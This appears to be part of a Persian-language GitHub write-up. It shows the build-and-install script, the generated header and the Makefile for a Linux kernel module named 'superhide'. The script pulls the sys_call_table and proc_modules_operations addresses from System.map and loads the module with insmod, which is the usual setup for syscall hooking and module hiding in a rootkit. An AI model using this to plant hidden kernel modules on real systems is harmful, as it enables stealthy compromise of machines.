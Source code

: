 ```bash
# require root privs
if [[ $UID != 0 ]]; then
	echo "Please run this script with sudo"
	exit 1
fi

# generate the file we need

smap="/boot/System.map-$(uname -r)"

echo -e "#pragma once" > ./sysgen.h
echo -e "#include <linux/fs.h>" >> ./sysgen.h

symbline=$(cat $smap | grep '\Wsys_call_table$')
set $symbline
echo -e "void** sys_call_table = (void**)0x$1;" >> ./sysgen.h

procline=$(cat $smap | grep '\Wproc_modules_operations$')
set $procline

echo -e "struct file_operations* proc_modules_operations = (struct file_operations*)0x$1;" >> ./sysgen.h

# make it
make

if [ $? -eq 0 ]; then
	# insert the module
	insmod ./superhide.ko
else
	echo "make failed"
	RET=1
fi

exit $RET
```
قسمت زیر محتوای فایل sysgen.h است که آدرس های گفته شده در آن نوشته شده است.
```c
#pragma once
#include <linux/fs.h>
void** sys_call_table = (void**)0xffffffff81e00260;
struct file_operations* proc_modules_operations = (struct file_operations*)0xffffffff81e3ffc0;
```
کد مربوط به Makefile در این قسمت آورده شده است.
```Makefile
#TODO create a .sh file to generate our .h file with offsets we need to get before building?
#ifneq ($(KERNELRELEASE),)

obj-m += superhide.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
با ران کردن دستور ./build_and_install در ترمینال فایل های آورده شده در تصویر زیر ساخته میشوند
.
![image](https://user-images.githubusercontent.com/45507606/188503082-615077f3-f076-4fc3-9cc9-96c7ba956528.png)
![image](https://user-images.githubusercontent.com/45507606/188503126-d6f26d9a-9d21-4527-846e-213d724e3db4.png)
